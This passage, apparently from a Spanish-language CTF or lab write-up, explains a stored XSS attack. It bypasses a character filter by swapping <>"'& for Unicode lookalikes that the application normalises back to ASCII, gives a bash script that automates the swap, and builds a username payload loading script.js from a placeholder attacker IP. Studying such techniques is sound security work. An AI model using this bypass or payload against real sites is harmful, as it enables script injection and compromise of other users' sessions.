 ### XSS almacenado

Primero, debemos crear un usuario que nos permita inyectar un script en la página (Stored XSS). Para conseguirlo, nos aprovechamos de caracteres `Unicode`. Si usamos alguno de los caracteres prohibidos `<>"'&` de forma directa, no podremos, pero podemos reemplazarlos por equivalentes que solo existan en `Unicode`, los cuales se transformarán a ASCII internamente, logrando el objetivo.

| ASCII | Unicode |
| :---: | ------- |
|   <   | ＜      |
|   >   | ＞      |
|   "   | “      |
|   '   | ’      |
|   &   | ＆      |

Preparamos un pequeño script en bash para facilitar esta tarea.

```bash
#!/usr/bin/env bash
#
# Uso:
#   ./transformar.sh "Texto con & < > ' y \""
#
# El script imprimirá el texto transformado por stdout con posibles equivalentes ASCII en unicode

INPUT="$1"

#    - &   => ＆ (U+FF06, Fullwidth Ampersand)
#    - <   => ＜ (U+FF1C, Fullwidth Less-Than Sign)
#    - >   => ＞ (U+FF1E, Fullwidth Greater-Than Sign)
#    - '   => ’ (U+2019, Right Single Quotation Mark)
#    - "   => “ (U+201C, Left Double Quotation Mark)
OUTPUT="$(echo "$INPUT" | sed -E \
  -e 's/&/＆/g' \
  -e 's/</＜/g' \
  -e 's/>/＞/g' \
  -e "s/'/’/g" \
  -e 's/\"/“/g'
)"

echo "$OUTPUT"
```

También podría hacerse de manera manual. En nuestro caso, ejecutamos el siguiente comando y copiamos el resultado para usarlo como nombre de usuario al registrarnos:

```bash
./transformar.sh '<script src="http://[IP-atacante]/script.js"></script>'
```

En mi caso:
